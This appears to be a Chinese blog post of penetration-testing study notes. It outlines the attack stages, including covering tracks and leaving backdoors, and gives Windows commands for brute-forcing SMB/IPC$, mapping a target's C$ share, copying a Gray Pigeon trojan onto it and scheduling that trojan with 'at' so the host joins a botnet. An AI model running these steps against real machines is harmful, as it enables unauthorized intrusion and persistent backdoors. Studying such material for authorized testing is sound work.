 ```yaml
---
layout: post
title: 渗透测试简单流程
date: 2020-08-16
categories:
- PenTest
---
```

0. 获得授权(对方机构)

1. 信息收集

   * nslookup
   * whois

2. 扫描漏洞

   * nmap --> IP范围 端口 发布软件 什么网站 
   * scan port
   * 高级扫描: 如IIS漏洞  win2003-IIS6.0  win2008-IIS7.0
     * 扫描网站漏洞

3. 漏洞利用

4. 提权(shell环境, 桌面环境)

   ****

5. 毁尸灭迹

6. 留后门

   ****

7. 渗透测试报告

   

**手工测试端口号开放:**

> `telnet IP 端口号`

**445漏洞利用之IPC$**

1. scanport扫描445端口

2. 漏洞利用之IPC$：
   进行暴力破解：NTscan

3. `net use f: \\10.1.1.2\share 123.com /user:administrator`  把10.1.1.2的共享文件夹映射到本地F盘

   `net use f: /del` 删除映射

   `net use * /del` 删除全部映射

   `net use f: \\10.1.1.2\c$ 密码 /user:用户` 把10.1.1.2 的C盘映射成本地F盘

   `net use f: \\10.1.1.2\ipc$ 密码 /user:用户` 把10.1.1.2的空会话映射成本地F盘

* 以上命令行的驱动映射都是临时映射, 想要持久化映射则需要  `我的电脑右键-->映射网络驱动器-->登录时重新连接-->使用其他用户连接`

**暴力破解系统密码之445**

`net time \\10.1.1.2`(需要先映射IPC$)  -- 查看目标计算机的时间

`at \\10.1.1.2  时间 "c:\...\xxx.exe"`  设定计划任务

`at \\10.1.1.2`  查看目标的计划任务

4. 制作木马
   利用光盘上的灰鸽子软件

5. 植入木马（留后门）
   copy d:\heihei.exe \\10.1.1.2\c$

6. 设置计划任务自动执行木马：
   net time \\10.1.1.2
   at \\10.1.1.2 11:11 "c:\heihei.exe"

7. 等待肉鸡上线
